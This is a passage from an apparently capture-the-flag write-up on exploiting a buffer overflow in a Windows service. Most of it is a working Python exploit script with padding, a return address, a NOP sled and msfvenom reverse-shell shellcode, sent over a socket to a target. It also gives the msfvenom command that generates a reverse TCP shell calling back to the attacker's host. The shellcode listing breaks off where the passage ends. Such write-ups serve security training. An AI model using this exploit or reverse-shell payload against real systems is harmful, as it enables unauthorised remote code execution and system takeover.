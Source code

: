 ```python
b"\x85\x3d\xac\x72\x8a\x6b\x5a\x9a\x3b\xc2\x1b\xa5\xf4\x82\xab"
b"\xde\xe8\x32\x53\x35\xa9\x43\x1e\x17\x98\xcb\xc7\xc2\x98\x91"
b"\xf7\x39\xde\xaf\x7b\xcb\x9f\x4b\x63\xbe\x9a\x10\x23\x53\xd7"
b"\x09\xc6\x53\x44\x29\xc3")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- send once more for reverse shell hopefully

![0xskar](/assets/gatekeeper10.png)

- now we can update the exploit with new msfvenom output with openvpn ip and run it against our target

- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -b "\x00\x0a" -f c`` 

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"\xc3\x14\x04\x08" + b"\x90" * 32
shellcode = (b"\xdb\xce\xba\xb4\xdf\x8f\x12\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
b"\x52\x31\x56\x17\x83\xee\xfc\x03\xe2\xcc\x6d\xe7\xf6\x1b\xf3"
b"\x08\x06\xdc\x94\x81\xe3\xed\x94\xf6\x60\x5d\x25\x7c\x24\x52"
b"\xce\xd0\xdc\xe1\xa2\xfc\xd3\x42\x08\xdb\xda\x53\x21\x1f\x7d"
b"\xd0\x38\x4c\x5d\xe9\xf2\x81\x9c\x2e\xee\x68\xcc\xe7\x64\xde"
b"\xe0\x8c\x31\xe3\x8b\xdf\xd4\x63\x68\x97\xd7\x42\x3f\xa3\x81"
b"\x44\xbe\x60\xba\xcc\xd8\x65\x87\x87\x53\x5d\x73\x16\xb5\xaf"
b"\x7c\xb5\xf8\x1f\x8f\xc7\x3d\xa7\x70\xb2\x37\xdb\x0d\xc5\x8c"
b"\xa1\xc9\x40\x16\x01\x99\xf3\xf2\xb3\x4e\x65\x71\xbf\x3b\xe1"
b"\xdd\xdc\xba\x26\x56\xd8\x37\xc9\xb8\x68\x03\xee\x1c\x30\xd7"
b"\x8f\x05\x9c\xb6\xb0\x55\x7f\x66\x15\x1e\x92\x73\x24\x7d\xfb"
b"\xb0\x05\x7d\xfb\xde\x1e\x0e\xc9\x41\xb5\x98\x61\x09\x13\x5f"
b"\x85\x20\xe3\xcf\x78\xcb\x14\xc6\xbe\x9f\x44\x70\x16\xa0\x0e"
b"\x80\x97\x75\x80\xd0\x37\x26\x61\x80\xf7\x96\x09\xca\xf7\xc9"
b"\x2a\xf5\xdd\x61\xc0\x0c\xb6\x87\x17\x71\xa7\xf0\x15\x8d\x39"
b"\x60\x93\x6b\x2f\x72\xf5\x24\xd8\xeb\x5c\xbe\x79\xf3\x4a\xbb"
b"\xba\x7f\x79\x3c\x74\x88\xf4\x2e\xe1\x78\x43\x0c\xa4\x87\x79"
b"\x38\x2a\x15\xe6\xb8\x25\x06\xb1\xef\x62\xf8\xc8\x65\x9f\xa3"
b"\x62\x9b\x62\x35\x4c\x1f\xb9\x86\x53\x9e\x4c\xb2\x77\xb0\x88"
b"\x3b\x3c\xe4\x44\x6a\xea\x52\x23\xc4\x5c\x0c\xfd\xbb\x36\xd8"
```